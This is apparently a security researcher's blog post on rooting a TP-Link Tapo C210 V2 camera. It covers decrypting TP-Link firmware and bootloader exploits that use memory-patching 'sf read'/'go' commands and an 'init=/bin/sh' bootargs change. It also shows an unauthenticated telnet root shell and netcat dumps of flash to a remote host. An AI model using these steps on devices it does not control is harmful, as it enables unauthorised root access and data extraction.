


Summary
Over the last 3 years I’ve been testing IoT devices under contract – mostly cameras and NVRs for manufacturers, but also switches, access control systems etc. The work has been really interesting, and I’m proud of all the reports I produced detailing new vulnerabilities, but if you are a security researcher you probably know I won’t be able to talk about any of that.
I recently just finished another contract writing reports on a multitude of vendor supplied test devices, and fancied something more casual and fun. Picked up a few cheap cameras that were not from the big camera companies I’m familiar with, to find a way to get a root shell and poke about a bit.
One of these is a TP-Link C210 V2 cloud camera. It was a nice change to not be writing a formal report about a device, and also be free to publish something new since the Hikvision CVE-2021-36260 vulnerability I discovered 3 years ago.
The device is super cheap, and unlike vendor supplied test devices I’ve worked on (some of which were expensive) - I played fast and loose with it not caring if I bricked it. Not an approach I can take with contract devices as it would be embarrassing to have bricked one and have ask them to ship another one :)
I did in fact cause a problem that prevented the Tapo from booting – but the recovery method I came up with might be interesting to some, maybe useful in niche situations so I’ve included it. I was determined to find a software only solution and found it fun to figure out a way.
I detail a TP-Link Tapo bootloader vulnerability that isn’t known as far as I know
I discuss TP-Link general firmware decryption which I also didn't find anything about online.
Note
Also just want to quickly mention I don't recommend any camera reliant on cloud services. Nothing against TP-Link specifically, but I don't want such devices on my network under the potential control of any company no matter what country they are based in. I gave away an Amazon Echo someone gifted me for example, and even my phone doesn't get trusted.
OK, let’s start with firmware decryption.
Firmware Decryption
Originally this post was just going to discuss Tapo firmware, but I got curious and ended up expanding it to cover all TP-Link firmware except switches.
This enables decryption, but will not allow creation of unauthorized firmware if it is signed.
Checking TP-Link website firmware downloads, it appears some platforms use encryption and some do not. It appears there 3 types of firmware:
And of the latter, 2 different firmware formats which use their own RSA key.
binwalk will be fine for the majority of the first 2, but the C210 V2 uses encrypted firmware and I always like to make my own firmware tools for devices I work on.
My test device has not yet been connected to the cloud (and might never be), which would reveal the latest firmware download link via network sniffing, so I checked a github repo for a leaked list of firmware and tested the most recent one.
From https://raw.githubusercontent.com/tapo-firmware/Directory/refs/heads/main/all_keys.txt
I downloaded: http://download.tplinkcloud.com/firmware/Tapo_C210v2_en_1.3.8_Build_230913_Rel.57186n_up_boot-signed_1696641054138.bin
binwalk won’t find any signatures in the file heavily suggesting encryption or at least obfuscation.
work@un64u:/play/tapo$ hhd Tapo_C210v2_en_1.3.7_Build_231020_Rel.39990n_up_boot-signed_1697781618399.bin
00000000 00 00 02 00 55 aa 4c 5e 83 1f 53 4b a1 f8 f7 c9 |....U.L^..SK....|
00000010 18 df 8f bf 7d a1 aa 55 08 00 00 00 00 00 00 17 |....}..U........|
00000020 c0 a8 66 99 aa 48 9e 3f 0a 38 23 3f da 46 6e 5e |..f..H.?.8#?.Fn^|
00000030 84 e8 3f b9 16 23 90 bb 6c de a6 83 35 fc b8 ba |..?..#..l...5...|
00000040 1b 10 98 b3 97 03 d4 38 d6 8c 55 ce 35 7f 58 5b |.......8..U.5.X[|
00000050 57 5e c5 39 95 43 2b 26 c3 c0 58 93 01 b5 c7 ef |W^.9.C+&..X.....|
00000060 c6 7f 9e bc fb 35 b7 41 96 aa 75 24 78 7e 0a 65 |.....5.A..u$x~.e|
00000070 03 de 8e ad af 7e bc 61 ce 5c f5 6b 45 ef 7c 72 |.....~.a.\.kE.|r|
Some form of header is clear at 0x00 – 0x1f
Followed by presumably encrypted data as I don’t recognise any magic bytes signifying compression.
We could disassemble the dumped bootloaders on the assumption one has relevant decryption code used during firmware update/recovery, but instead I’ll just have a look at the dumped filesystem and look for scripts or programs that perform it.
work@un64u:/i/tapo/C210v2/mtd/rootfs$ grep -l -r -i firmware
bin/cloud-iot
bin/tp_manage
bin/busybox
bin/uc_convert
etc/dsd_convert.json
etc/hotplug2-common.rules
etc/init.d/check_upgrade
etc/init.d/check_dup_list_from_update
etc/init.d/cloud_iot
qemu-arm-static
lib/preinit/99_10_read_uc_data
lib/modules/4.9.84/ssw101b_wifi_usb.ko
lib/modules/4.9.84/atbm603x_wifi_usb.ko
lib/firstboot/10_determine_parts
usr/bin/recover-manager
usr/bin/dsd
usr/bin/cloud_upgrade
usr/lib/libuc_convert.so
usr/lib/opkg/info/firmware_upgrade.control
usr/lib/opkg/info/mtd.control
usr/lib/opkg/status
sbin/slpupgrade
sbin/sysupgrade
/etc/init.d/check_upgrade seems the obvious to check and that executes /sbin/slpupgrade
work@un64u:/i/tapo/C210v2/mtd/rootfs$ file ./sbin/slpupgrade
./sbin/slpupgrade: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked,
interpreter /lib/ld-uClibc.so.0, stripped
This program is super simple – basically:
rsaVerifyPSSSignByBase64EncodePublicKeyBlob() from /lib/libsecurity.so does the actual verification and decryption, but in short:
We could just use something like gdb on the device to write out the decrypted data during slpupgrade execution (without updating the flash) - we also have a number of options if we want to do our own decryption off the device:
Or, you know, just download the library source code I found on TP-Link’s website and compile our own version. Yeah let’s do that.
https://static.tp-link.com/upload/gpl-code/2022/202211/20221130/c310v2_GPL.tar.bz2
Added KEY and iv print out and some other debug to rsa2_pss_sha256_verifysig() in /camera_slp/torchlight/tp_package/lib/libsecurity/src/rsaVerify.c
update: the 2 different encrypted formats differ in that the data decryption function starts at different ciphertext offsets so I now pass an extra argument to specify it. Or just use #extern
printf("key/iv:\nKEY=");
for(i = 0; i <16; i++)
{
printf("%02x",salt[i]); //first 0x10 is key
}
printf("\n");
printf("IV=");
for(i = 16; i <32; i++)
{
printf("%02x",salt[i]);
}
printf("\n"); Compiled libsecurity.
Wrote a simple program to replicate the parts of slpupgrade we care about and link to our own libsecurity.so
I have redacted parts of it as the vendor may consider the public RSA key proprietary
Now we have a (alpha version) offline decryptor. Let’s see if it works (it's noisy right now as debug output is enabled)
work@un64u:/play/tapo$ ./decrypt_fw Tapo_C210v2_en_1.3.7_Build_231020_Rel.39990n_up_boot-signed_1697781618399.bin
TP-link firmware decrypt
Watchful_IP 27-12-24 v0.0.2
watchfulip.github.io
fw_size is 8128512
firmware_ver: 0
RSA-1024
Debug: Calling rsaVerifyPSSSignByBase64EncodePublicKeyBlob with:
RSA_KEY: BgIAAAw < REDACTED > POz
RSA_KEY_len: 368
fw_buffer address: 0x7f6d5fca2010
fw_size: 8128512
signature address: 0x7ffd5ea3a610
check_only: 0
data_dec_offset: 0x00000000
fw_buffer:
00 00 02 00 55 aa 4c 5e 83 1f 53 4b a1 f8 f7 c9
18 df 8f bf 7d a1 aa 55 08 00 00 00 00 00 00 17
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
< snip >
Signature:
c0 a8 66 99 aa 48 9e 3f 0a 38 23 3f da 46 6e 5e
84 e8 3f b9 16 23 90 bb 6c de a6 83 35 fc b8 ba
1b 10 98 b3 97 03 d4 38 d6 8c 55 ce 35 7f 58 5b
57 5e c5 39 95 43 2b 26 c3 c0 58 93 01 b5 c7 ef
< snip >
rsaVerifyPSSSignByBase64EncodePublicKeyBlob()
app_base64decode
app_base64decode ret len 276
len = 276
rsaVerifySign()
rsa2_newkey_ex 276 1
0200000C2400005253 < REDACTED > 00
RSA1
bit_len: 2048
rsaVerifySign(3)
rsa2_pss_sha256_verifysig()
H1:
5d < REDACTED > d4
H2:
9b < REDACTED > 77
key/iv:
KEY=27 < REDACTED > d4
IV=67 < REDACTED > b9
rsaVerifySign(4)
re is 0x00000001
Debug: rsaVerifyPSSSignByBase64EncodePublicKeyBlob returned: 1
Firmware verification successful
Decrypted firmware written to Tapo_C210v2_en_1.3.7_Build_231020_Rel.39990n_up_boot-signed_1697781618399.bin.decWell it ostensibly worked - let's see what binwalk has to say about decrypted file just written.
work@un64u:/play/tapo$ binwalk Tapo_C210v2_en_1.3.7_Build_231020_Rel.39990n_up_boot-signed_1697781618399.bin.dec
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
2112 0x840 xz compressed data
133632 0x20A00 uImage header, header size: 64 bytes, header CRC: 0xF49FA693, created: 2023-10-20 03:06:27, image size: 1465936 bytes, Data Address: 0x20008000, Entry Point: 0x20008000, data CRC: 0xCB5FE299, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "Linux-4.9.84"
135896 0x212D8 device tree image (dtb)
144332 0x233CC device tree image (dtb)
147628 0x240AC device tree image (dtb)
148579 0x24463 xz compressed data
148913 0x245B1 xz compressed data
1600000 0x186A00 Squashfs filesystem, little endian, version 4.0, compression:xz, size: 2375554 bytes, 675 inodes, blocksize: 131072 bytes, created: 2023-10-20 03:06:35
4065280 0x3E0800 Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3815274 bytes, 263 inodes, blocksize: 131072 bytes, created: 2023-10-20 03:06:38
7998720 0x7A0D00 gzip compressed data, from Unix, last modified: 2023-10-20 03:06:34
8026624 0x7A7A00 gzip compressed data, from Unix, last modified: 2023-10-20 03:06:34Nice! Does it work for other Tapo firmware that’s encrypted? The firmware scheme or RSA key might not match on other platforms?(turns out they won't)
I tested the following and they all appeared to decrypt - though it should be said I haven't really had more than a cursory check with binwalk:
Yes! They all decrypt fine. The RSA key is clearly the same across them all. H200 is a smart hub apparently so it may be this will work on other device types besides cameras. It will turn out lots of firmware will not decrypt.
27 Dec 2024 update: now all encrypted TP-Link firmware supported as far as I can tell except Switches
Although I’ve censored the public RSA keys used for decryption/verification - you can just check TP-Links own firmware. One of them is in plaintext in /sbin/slpupgrade though so not hard to find. The other in /usr/bin/nvrammanager for firmware that uses that instead.
e.g.
strings ./sbin/slpupgrade | grep Bg You can search the web, or dump it from your own camera.
Or download what I assume is transition firmware from TP-Link, which is not encrypted but contains the RSA key I redacted in order for update of later versions which are encrypted.
cd /tmp
wget http://download.tplinkcloud.com/firmware/Tapo_C210v1_en_1.3.1_Build_221218_Rel.73283n_u_1679534600836.bin
binwalk -e Tapo_C210v1_en_1.3.1_Build_221218_Rel.73283n_u_1679534600836.bin
strings _Tapo_C210v1_en_1.3.1_Build_221218_Rel.73283n_u_1679534600836.bin.extracted/slpupgrade | grep Bg | tail -n 1
BgIAAAwkA < redacted >
That's the key you need. Similar for nvrammanager firmware.
Feel free to do what you like with the code in this post as long as it is not causing harm (please consider including a link to this post).
Security researchers having eyes on the code helps improve cyber security of all products in general.
C210 v2 Bootloaders Vulnerabilities
One of the funnest things when playing with a new device to do is find a way to get a root shell. I'm not sure if the root password is static or known for this device and I didn't check online. I like the challenge of finding my own way in.
There are vulnerabilities in each of the bootloaders (1st stage “factory_boot”, 2nd stage “boot”) that can be used.
The second and third ones that affect the second bootloader are widely known, but as far as I know the one I came up with for the first bootloader isn't. Though it is very specific to the version of the compiled code.
In general simplified terms, the SoC bootrom will load and execute code from flash address 0x00 – maybe after verifying the code there is signed depending on the SoC and any efuses set (i.e secure boot).
This will lead to executing the factory_boot bootloader which in turn will execute the boot bootloader. That can then load and verify the kernel and boot linux.
Encryption and verification varies depending on the device.
In the case of the C210 V2, factory boot stage can be interrupted by typing “slp”, whereas the next stage is not interruptible except using the following exploit.
Vulnerability 2 (second stage flash chip pin short)
Some Tapo versions permit second bootloader interrupt with "slp" but my C210 didn't - it's been patched out.
Alternatively we can short 2 of the exposed flash chip pins together at the right time (after second boot is loaded and running, but before kernel is loaded). Known in 2020 and perhaps before. e.g. comment from depau https://github.com/nervous-inhuman/tplink-tapo-c200-re/issues/1
In that case kernel read fails and you get a shell in second bootloader.
Vulnerability 3 (modify bootargs)
Standard attack known forever, but does require a shell in second bootloader.
Append init=/bin/sh to bootargs and run bootcmd, and you’ll get a root shell. You can then continue start up. E.g.:
set bootargs 'console=ttyS0,115200n8r androidboot.console=ttyS0 root=/dev/mtdblock6 rootfstype=squashfs spdev=/dev/mtdblock7 noinitrd init=/bin/sh LX_MEM=0x3FE0000 mma_heap=mma_heap_name0,miu=0,sz=0x1220000 mma_memblock_remove=1'
run bootcmd
.. kernel boots …
/etc/preinit
/etc/init.d/rcS S bootI used the following to get network up and mount the sd card (which has various tools I want).
vi /tmp/wpa.conf
ctrl_interface=/var/run/wpa_supplicant
update_config=1
ap_scan=1
network={
ssid=[my ssid]
scan_ssid=1
psk=[my psk]
priority=5
}
mount /dev/mmcblk0p1 /tmp/sdcard/
kill `pidof wpa_supplicant`
/usr/sbin/wpa_supplicant -B -Dwext -iwlan0 -P/tmp/supplicant_pid -C/var/run/wpa_supplicant -bbr-wan -c/tmp/wpa.conf
telnetd -p 4444 -l /bin/sh
Assuming all went well you can telnet tapo_ip 4444 for root shell
Easy enough to use cat /dev/mtd0 > /tmp/sdcard/mtd0 etc for dumping flash partitions
Or if you don’t want to keep swapping out SD card to read in another device, use netcat. E.g.
PC:
nc -l > mtd0
Tapo:
cat /dev/mtd0 | nc <serverip> <port>
Other tools such as tftp may work also – particularly if you have a more fully featured busybox on the SD card you can use.
This does require shorting small chip pins at the right time, and I preferred a software only solution.
Vulnerability 1 (first stage arbitrary code modification via sf read and go commands)
Enterring “slp” into first bootloader gives a boot shell. Commands are very limited however.
Even the help command isn’t present, but you can just press
SigmaStar # help
Unknown command 'help' - try 'help'
SigmaStar #
bootp btime dbg env estart go gpio httpd initDbgLevel macaddr printenv
reset riu run setenv sf sfbin tftpboot
SigmaStar #
We do have the sf and go commands. There are no memory address limitations in how we use these commands. That makes it very flexible, but with the downside the attack will be specific to the exact version.
Therefore we can use sf read to overwrite running bootloader code, and also use go to jump to code anywhere in memory.
Analysis of the first bootloader shows the main_loop() function
void __noreturn main_loop()
{
int v0; // r0
_DWORD *s; // r5
int v2; // r0
int v3[5]; // [sp+8h] [bp-A8h] BYREF
int v4; // [sp+1Ch] [bp-94h]
_DWORD cmd_buf[36]; // [sp+20h] [bp-90h] BYREF
bootstage_mark_name(162, (int)"main_loop");
v0 = nullsub_18(162);
nullsub_23(v0);
bootdelay_process();
if ( !to_abortboot_keyed() )
{ // From GPL download:
// #ifdef CONFIG_MINIOS_BOOTARGS
// ret = 0;
// #else
// ret = validateLocalFirmware();
// #endif
//
printf("Uip boot...\n");
printf("Firmware check pass!\n");// we didn't check anything
memset(cmd_buf, 0, 128);
sprintf(cmd_buf, "sf probe 0;sf read 0x21000000 0x%x 0x%x", 0x60000, 0x20000);
run_command_list(cmd_buf, (_BYTE *)0xFFFFFFFF, 0);
xz_crc32_init();
s = xz_dec_init(0, 0x4000u);
if ( !s )
printf(" xz_dec_init ERROR!!\n");
v4 = 0x40000;
v3[3] = 0x220A0000;
v3[2] = 0x20000;
v3[0] = 0x21000040;
v3[1] = 0;
v3[4] = 0;
printf(
"XZ params: in_addr 0x%x,in_size 0x%x, out_addr 0x%x, out_size 0x%x\n",
0x21000040,
0x20000,
0x220A0000,
0x40000);
v2 = xz_dec_run((int)s, v3);
printf("XZ: uncompress ret %d, size = %d\n", v2, v4);
xz_dec_end((int)s);
run_command("go 0x220A0000", 0);
}
cli_loop();
} Interesting that the second stage doesn’t appear to be verified here. There’s support for it in the GPL source, but it is not in place on this device.
Anyway, what if we use sf read to overwrite the run_command("go 0x220A0000", 0) and use go to execute main_loop() to load next stage bootloader to memory, but not jump to it yet?
We can then use another sf read to change code in the next bootloader to avoid booting the kernel. Then use the go command to go to the next stage and drop into a shell, and change bootargs as before for root linux shell.
Here’s part of the main_loop() disassembly:
ROM:23E01260 BL xz_dec_run
ROM:23E01264 LDR R2, [SP,#0xB0+var_94]
ROM:23E01268 MOV R1, R0
ROM:23E0126C LDR R0, =aXzUncompressRe ; "XZ: uncompress ret %d, size = %d\n"
ROM:23E01270 BL printf
ROM:23E01274 MOV R0, R5
ROM:23E01278 BL xz_dec_end
ROM:23E0127C LDR R0, =aGo0x220a0000 ; "go 0x220A0000"
ROM:23E01280 MOV R1, R4
ROM:23E01284 BL run_command ; nop to exit to main shell
ROM:23E01288
ROM:23E01288 loc_23E01288 ; CODE XREF: main_loop+2C↑j
ROM:23E01288 BL cli_loop
ROM:23E0128C ; ---------------------------------------------------------------------------
ROM:23E0128C ADD SP, SP, #0xA4
ROM:23E01290 POP {R4,R5,PC}
ROM:23E01290 ; End of function main_loop
ROM:23E01290So we have our run_command address 0x23E01284 we just need to overwrite it with 0x00000000 (NOP it)
work@un64u:/play/tapo$ hhd /i/tapo/C210v2/mtd/mtd0
00000000 02 00 00 ea 49 50 4c 5f 00 44 00 00 55 3e 47 38 |....IPL_.D..U>G8|
00000010 08 70 9f e5 08 60 9f e5 00 60 87 e5 01 00 00 ea |.p...`...`......|
00000020 00 08 20 1f 01 a0 00 00 30 0f 11 ee 40 00 80 e3 |.. .....0...@...|
00000030 30 0f 01 ee 51 0f 11 ee 03 0b 80 e3 51 0f 01 ee |0...Q.......Q...|
00000040 0f 06 a0 e3 50 0f 01 ee 01 01 a0 e3 10 0a e8 ee |....P...........|
00000050 08 70 9f e5 08 60 9f e5 00 60 87 e5 01 00 00 ea |.p...`...`......|
00000060 00 08 20 1f 02 a0 00 00 63 04 00 fa 08 70 9f e5 |.. .....c....p..|
00000070 08 60 9f e5 00 60 87 e5 01 00 00 ea 00 08 20 1f |.`...`........ .|There is 0x00 0x00 at flash address 0x01 – so we can just load that twice to overwrite with 0x00000000
sf read 0x23E01284 0x01 2
sf read 0x23E01286 0x01 2
go 0x23E0118C #(main_loop function address)
(device just boots normally into linux)Hmm, didn’t work. Code in bootloaders often relocates in memory when running. Let’s see if we can get more information.
Let’s deliberately crash the bootloader (theoretically this could brick the device if it lands in a flash erase or write function etc - the chances are tiny but not zero).
SigmaStar # go ffffffff
## Starting application at 0xFFFFFFFF ...
undefined instruction
pc : [<00000004>] lr : [<23f81c24>]
sp : 23b3f910 ip : 0000000c fp : 23e00020
r10: 00000000 r9 : 23b3fef8 r8 : 00000002
r7 : 23b3f948 r6 : 00000001 r5 : fa000075 r4 : 23b3f950
r3 : ffffffff r2 : 0000001d r1 : 23b3f950 r0 : 00000001
Flags: nzCv IRQs off FIQs off Mode SVC_32
Resetting CPU ...So the link register shows we are expected to come back to 0x23f81c24
But disassembly of the uboot calling function "go" indicates a return to 0x23E01C24
ROM:23E01C1C MOV R0, R6
ROM:23E01C20 BL do_go
ROM:23E01C24 MOVS R4, R0 ; We should ret to here
ROM:23E01C28 MOV R1, R0
ROM:23E01C2C LDR R0, =aApplicationTer ; char *
ROM:23E01C30 MOVNE R4, #1
ROM:23E01C34 BL printf
ROM:23E01C38
ROM:23E01C38 loc_23E01C38 ; CODE XREF: go+C↑j
ROM:23E01C38 MOV R0, R4
ROM:23E01C3C POP {R4-R6,PC}
ROM:23E01C3C ; End of function go
In other words, the running code is at a 0x23f81c24 - 0x23E01C24 = +0x180000 offset.
Adjust our commands as needed.
sf read 0x23F81284 0x01 2
sf read 0x23F81286 0x01 2
go 0x23F8118CAutobooting in 1 seconds
SigmaStar # sf read 0x23F81284 0x01 2
SF: 2 bytes @ 0x1 Read: OK
SigmaStar # sf read 0x23F81286 0x01 2
SF: 2 bytes @ 0x1 Read: OK
SigmaStar # go 0x23F8118C
## Starting application at 0x23F8118C ...
Autobooting in 1 seconds
Uip boot...
Firmware check pass!
Flash is detected (0x0C0A, 0x20, 0x40, 0x17)
SF: Detected nor0 with total size 8 MiB
SF: 131072 bytes @ 0x60000 Read: OK
[XZ] !!!reserved 0x21000000 length=0x 1000000 for xz!!
XZ params: in_addr 0x21000040,in_size 0x20000, out_addr 0x220a0000, out_size 0x40000
XZ: uncompress ret 7, size = 262144
SigmaStar #Great! Next stage loaded and decompressed but we didn’t automatically jump to it yet. We are still in first bootloader.
So let’s change next stage code before we execute it to give us a shell.
There are numerous ways to do this of course, but I went for changing bootcmd.
Second stage bootloader function to return bootcmd:
int get_bootcmd()
{
int v0; // r0
volatile int bootdelay; // r4
int bootcmd; // r0
v0 = getenv("bootdelay");
bootdelay = v0;
if ( v0 )
bootdelay = simple_strtol(v0, 0, 10);
bootcmd = getenv("bootcmd");
::bootdelay = bootdelay;
return bootcmd;
}ROM:220BF6C2 ; _DWORD aBootcmd
ROM:220BF6C2 aBootcmd DCB "bootcmd",0 ; DATA XREF: ROM:off_220A16C8↑o
ROM:220BF6CA aSlp DCB "slp",0
ROM:220BF6CE ; _DWORD aBootdelaykey
ROM:220BF6CE aBootdelaykey DCB "bootdelaykey",0
ROM:220BF6DB ; _DWORD aDram
“bootcmd” string literal is at 0x220BF6C2
Write a 0x00 at 0x220BF6C2 and string will become “bo” – which of course is not an environment variable so won’t be loaded and executed. No offset is required for second bootloader .text .data etc
Then jump to second stage bootloader.
SigmaStar # sf read 0x220BF6C4 0x1 1
SF: 1 bytes @ 0x1 Read: OK
SigmaStar # go 0x220A0000
## Starting application at 0x220A0000 ...
U-Boot 2015.01 (Apr 27 2024 - 16:51:33), Build: jenkins-tapo_c210v2_sw101b_develop-22
Version: I6g09280b5
DRAM:
< snip >
Flash is detected (0x0C0A, 0x20, 0x40, 0x17)
SF: Detected nor0 with total size 8 MiB
SF: 8388608 bytes @ 0x0 Read: OK
SigmaStar #Yay – second stage bootloader shell. No timed shorting of pins needed.
This does have the downside of needing the correct flash reads to the correct addresses – which may be different for different bootloader releases.
But for my device – the following does what I need.
sf read 0x23F81284 0x00003f34 4
go 0x23F8118C
sf read 0x220BF6C4 0x1 1
go 0x220A0000Fixing a mistake the easy (ok, hard) way
Rather than entering bootloader commands every time, if you are doing security research you are going to be booting the device lots, so I wanted my own root filesystem on the device.
Depends on the device and type of testing, but typically I like to:
Easy enough to make a new rootfs partition file which I won’t cover here. It isn’t encrypted or signed.
However, I can’t write it to flash from bootloader as this device only has wireless or SD card – which are not accessible within the bootloader.
There is no serial data transfer command.
There is tftp to load file from remote server to memory, before writing it to flash, but the device has no (populated) ethernet port.
I could make my own firmware, disable signing checks in /sbin/slpupgrade to update, but I didn’t want to make a firmware builder. Wouldn’t take long, but I'm playing a bit fast and loose with a disposable device for a change - and I’d rather go the direct route.
Writing to /dev/mtd6 (rootfs) partition from within linux is not recommended while it’s mounted during already booted linux, but I did it anyway. Sometimes that works and sometimes not - depends on what's running, memory, and a number of other things. Much more likely to be fine if you do this before all the services come up (e.g. init=/bin/sh) but I knew it might go wrong and it did.
I assumed if things went wrong I could use sf commands in bootloader to read from the right offset in "firmware" and overwrite "rootfs" to restore it. Upon reflection I should have paid more attention to the MTD layout as reported in the kernel.
/ # cat /proc/mtd
dev: size erasesize name
mtd0: 0002d800 00010000 "factory_boot"
mtd1: 00002800 00010000 "factory_info"
mtd2: 00010000 00010000 "art"
mtd3: 00020000 00010000 "config"
mtd4: 00020000 00010000 "normal_boot"
mtd5: 00166200 00010000 "kernel"
mtd6: 00259e00 00010000 "rootfs"
mtd7: 003bfe00 00010000 "rootfs_data"
mtd8: 00000200 00010000 "verify"
mtd9: 00780000 00010000 "firmware"The firmware partition is too big to fit on the flash chip with the other partitions.
dmesg indicates:
10 RedBoot partitions found on MTD device NOR_FLASH
partitions[0] = {.name = factory_boot, .offset = 0x00000000, .size = 0x0002d800 (182KiB) }
partitions[1] = {.name = factory_info, .offset = 0x0002d800, .size = 0x00002800 (10KiB) }
partitions[2] = {.name = art, .offset = 0x00030000, .size = 0x00010000 (64KiB) }
partitions[3] = {.name = config, .offset = 0x00040000, .size = 0x00020000 (128KiB) }
partitions[4] = {.name = normal_boot, .offset = 0x00060000, .size = 0x00020000 (128KiB) }
partitions[5] = {.name = kernel, .offset = 0x00080000, .size = 0x00166200 (1432KiB) }
partitions[6] = {.name = rootfs, .offset = 0x001e6200, .size = 0x00259e00 (2407KiB) }
partitions[7] = {.name = rootfs_data, .offset = 0x00440000, .size = 0x003bfe00 (3839KiB) }
partitions[8] = {.name = verify, .offset = 0x007ffe00, .size = 0x00000200 (0KiB) }
partitions[9] = {.name = firmware, .offset = 0x00080000, .size = 0x00780000 (7680KiB) I didn’t spot at the time the firmware partition is mapped such that it contains the rootfs partition I wanted to write - so I don't have good rootfs data on flash to recover from. whoops.
I haven’t tested this, but I suspect a better approach would have been to overwrite that (/dev/mtd9) and not rootfs (/dev/mtd6) as the latter has erase boundary issues due to the mapping.
But now I have a device that will start the kernel, but fail to mount rootfs as it did not write correctly. Ah well, this isn't a serious security pentest contract so no real harm done. I can strip the components off the pcb and use it as a novelty drinks coaster for all it matters.
Given the limited options in the bootloaders to provide good rootfs data for writing to flash (no network, no sdcard, no serial transfer) – what are the options for recovery here?
Hmm. Well those options sound like a hassle. I could do one of those, but it would involve getting out of my comfy chair, getting bits and bobs like cables, multimeter, logic analyzer and soldering iron etc. There has to be a way without taking a hardware approach right?
Thinking about it, we still have bootloader access which provides a shell we can run flash read/writes and the go command.
I can’t just upload my own program and jump to it without network or serial data transfer, but I have a flash dump, and I can perform as many flash reads as I like to populate memory as I choose.
So, I can write and compile my own baremetal program, then programatically find the needed flash reads to reproduce the code in memory.
Then send those commands to the bootloader over UART, and execute my program. Something to read hex ascii from UART to memory. Then drop back to shell so I can use the sf erase and sf write commands to write my custom rootfs. Much easier than making a cable/programming flash chip!! (it isn't)
Step 1 – read from UART input to memory
Hack together quick baremetal program in ASM#:
If you are familiar with ASM, you may notice there is no .data section – the strings are just appended to the end of the code. This is so the raw binary is as small as possible as we are using individual flash reads to reproduce it on the device.
I compiled it as below but any ARM 32 bit cross compile toolchain will do:
Step 2 – Convert baremetal binary into flash reads
A simple python program will suffice here – just find the baremetal program bytes in our flash dump and produce corresponding sf read commands.
Example output:
work@un64u:/play/tapo/as$ python gen_sfreads.py read_keys_to_mem.S.bin flashdump.bin 0x21000800
sf read 0x21000800 0x115 0x1
sf read 0x21000801 0x1e9 0x1
sf read 0x21000802 0x1e6 0x1
sf read 0x21000803 0x1d6 0x1
sf read 0x21000804 0x15ac 0x1
< snip >So we have a list of commands that will reproduce write our program in memory.
Now we need to send them (I am not copying and pasting them one by one in putty that sounds like work)
Step 3 – Send flash read commands to device
Python again, running on a spare rpi which is connected via UART to device.
It will handle the device starting, waiting for prompt and reading from supplied flash commands in a text file we generated in previous step.
Then execute our program with go command and exit.
Step 4 – Send rootfs data via UART encoded as ascii hex
Use hexdump to produce hex ascii without spaces and in upper case of our desired partition data to a text file.
cat /i/tapo/C210v2/mtd/mtd6.rootfs.patched.mtd | hexdump -v -e '1/1 "%02x"' | tr '[:lower:]' '[:upper:]' > /i/mtd6.txt
If all went well the Tapo should be waiting for our input of ascii hex bytes - so cat the rootfs data to UART:
cat /i/mtd6.txt > /dev/ttyAMA0
Our program running in the bootloader should have read it all, and written it to memory in binary (as opposed to ascii hex bytes).
Step 5 – Erase, write and reboot
No need to show this here, but I actually had another program loaded at 0x21000000 to memdump loaded data for verification – neither bootloader has md (memdump) command.
That’s why for reading hex ascii writing to memory I placed in at 0x21000800 not 0x800 earlier.
Anyway, I checked the contents and all looks good and we have overcome the challenge of populating memory with new rootfs partition data using a very limited bootloader and UART only.
sf erase 0x001e6200 0x00259e00
sf write 0x21010000 0x001e6200 0x00259e00
reset
< snip >
## Booting kernel from Legacy Image at 20008200 ...
Image Name: Linux-4.9.84
Image Type: ARM Linux Kernel Image (uncompressed)
Data Size: 1465632 Bytes = 1.4 MiB
Load Address: 20008000
Entry Point: 20008000
Verifying Checksum ... OK
Loading Kernel Image ... OK
atags:0x20000000
Starting kernel ...
[ 0.000000] Booting Linux on physical CPU 0x0
[ 0.000000] Linux version 4.9.84 (root@smartlifeci1) (gcc version 4.9.4 (Buildroot 2017.08-gc7bbae9-dirty) ) #2 PREEMPT Sat Apr 27 17:03:23 CST 2024
< snip >
[ 1.386953] VFS: Mounted root (squashfs filesystem) readonly on device 31:6.
< snip >
/ # id
uid=0(root) gid=0(root)Our rooted rootfs was written successfully!!
And I didn’t have to fetch hardware modification tools! Sure, that might have been easier but I enjoyed overcoming the challenge I set myself.
OK, back to proper security research work I won't be contractually allowed to talk about.
TP-Link C210 V2 Notes
UART
PCB on the device under test has a populated 4 pin header providing UART access under the SD card cover.
Connecting to these SoC TX/RX pins permits access to UART. GND not shown.
Likely these pins come out to somewhere on the PCB but I didn’t check.
Acknowledgements
Watchful IP would like to thank TP-Link for providing GPL code for this and related products online.
Some vendors only pay lip service to GPL, and only publish the stock source instead of the version with the modifications they have made despite being obligated under license to do so.
Sadly some vendors ignore it entirely. So well done to TP-Link for doing it properly.
GENERAL DISCLAIMER
Watchful IP conducted time limited general security testing on stated product. This did not include any online services testing, which, under UK Law, would require explicit consent from vendor. This report is not authorized by the vendor.
Great care was taken to avoid infringing the rights of TP-Link. No closed source is shown, no website content or logos included and decryption keys redacted. Only GPL code hosted by TP-Link is briefly shown.
Watchful IP accepts no liability for any damage to equipment or service provision undertaken or caused by third parties.
